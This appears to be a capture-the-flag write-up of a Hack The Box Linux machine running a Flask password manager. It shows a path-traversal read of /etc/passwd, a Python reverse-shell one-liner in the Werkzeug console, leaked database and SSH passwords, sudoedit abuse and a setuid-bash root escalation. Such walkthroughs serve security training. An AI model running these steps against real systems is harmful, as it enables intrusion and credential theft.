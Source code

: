 # Inject

## IP = 10.10.11.203

### Initial
```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-21 09:35 EDT
Nmap scan report for superpass.htb (10.10.11.203)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4:bc:ee:21:d7:1f:1a:a2:65:72:21:2d:5b:a6:f7:00 (ECDSA)
|_  256 65:c1:48:0d:88:cb:b9:75:a0:2c:a5:e6:37:7e:51:06 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: SuperPassword \xF0\x9F\xA6\xB8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Default credential on /login: `admin:admin`

Flask
Python3.10

### LFI: http://superpass.htb/download?fn=../../../../../../../../../../etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
```

### Strange SQL error
```
sqlalchemy.exc.OperationalError: (pymysql.err.OperationalError) (2013, 'Lost connection to MySQL server during query')
[SQL: SELECT users.id AS users_id, users.username AS users_username, users.hashed_password AS users_hashed_password 
FROM users 
WHERE users.id = %(id_1)s 
 LIMIT %(param_1)s]
[parameters: {'id_1': '15', 'param_1': 1}]
(Background on this error at: https://sqlalche.me/e/14/e3q8)
```

### Werkzeug PIN code reconstruction	
https://hacktricks.boitatech.com.br/pentesting/pentesting-web/werkzeug

```sh
┌──(venv)─(kali㉿kali)-[~/flask_try]
└─$ python3 hello.py
 * Serving Flask app 'hello'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
['kali', 'flask.app', 'wsgi_app', '/home/kali/flask_try/venv/lib/python3.11/site-packages/flask/app.py']
 * Debugger PIN: 881-633-235
 * Debugger is active!
['kali', 'flask.app', 'Flask', '/home/kali/flask_try/venv/lib/python3.11/site-packages/flask/app.py']
```

1. Final values is `werkzeug/`
2. Simply run `import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")` in console

### Interesting
/app/config_prod.json:
```
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```
Inside the box:
```
select * from passwords
    -> ;
;
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
| id | created_date        | last_updated_data   | url            | username | password             | user_id |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
|  3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
|  4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|  6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|  7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
|  8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | 5db7caa1d13cc37c9fc2 |       2 |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
5 rows in set (0.00 sec)

mysql>
```

### www-data -> corum: ssh `corum:5db7caa1d13cc37c9fc2`

### user.txt

### Debugging port on Google Chrome
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/
- Homepage with edwards password

### corum -> edwards: ssh `edwards:d07867c6267dcb5df0af`

### sudo -l
```
edwards@agile:/tmp$ sudo -l                                                                                                                                                                                                                
Matching Defaults entries for edwards on agile:                                                                                                                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty                                                                                                             
                                                                                                                                                                                                                                           
User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json 
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

### sudo -u dev_admin sudoedit /app/config_test.json
```
{
    "SQL_URI": "mysql+pymysql://superpasstester:VUO8A2c2#3FnLq3*a9DX1U@localhost/superpasstest"
}
```

### sudo -u dev_admin sudoedit /app/app-testing/tests/functional/creds.txt
```
edwards:1d7ffjwrx#$d6qn!9nndqgde4
```

### Sudoedit exploit
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/


### With pspy we notice the `activate` binary being called by root
1. Add `chmod u+s /bin/bash` to `activate`
2. Wait execution
3. `/bin/bash -p`